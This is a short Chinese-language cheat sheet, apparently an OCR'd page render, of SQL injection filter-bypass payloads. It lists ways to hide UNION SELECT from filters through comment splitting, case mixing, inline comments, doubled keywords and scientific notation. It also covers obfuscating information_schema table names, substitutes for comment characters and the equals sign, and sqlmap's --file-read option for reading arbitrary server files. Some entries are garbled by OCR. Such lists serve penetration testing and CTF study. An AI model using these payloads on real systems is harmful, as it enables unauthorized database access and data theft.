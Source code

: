 #### union, select, where

（1）使用注释符绕过：

```
//，-- , /**/, #, --+, -- -, ;,%00,--a
U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user
```

（2）使用大小写绕过：

```
id=-1'UnIoN/**/SeLeCT
```

（3）内联注释绕过：

```
id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
```

（4） 双关键字绕过：

```
id=-1'UNIunionONSeLselectECT1,2,3–-
```

（5）科学计数法

```
id=0e1union 
```



#### 表名等关键词

以information_schema.tables为例

空格 `information_schema . tables`

着重号 `information</em>schema.tables`

特殊符 `/!informationschema.tables/`

别名 `information_schema.(partitions),(statistics),(keycolumnusage),(table_constraints)`



#### 注释符

常用注释符：`#, --+, /**/`，可以用 `;%00` 代替

不用注释符，与后面的语句构造闭合就行，如 `||'1`，恰好与 `’ LIMIT 0,1` 闭合

#### 等号

使用 `like 、rlike 、regexp` 或者  `< , >`

### 杂项

sqlmap 中`--file-read`参数，可以读取服务器端任意文件
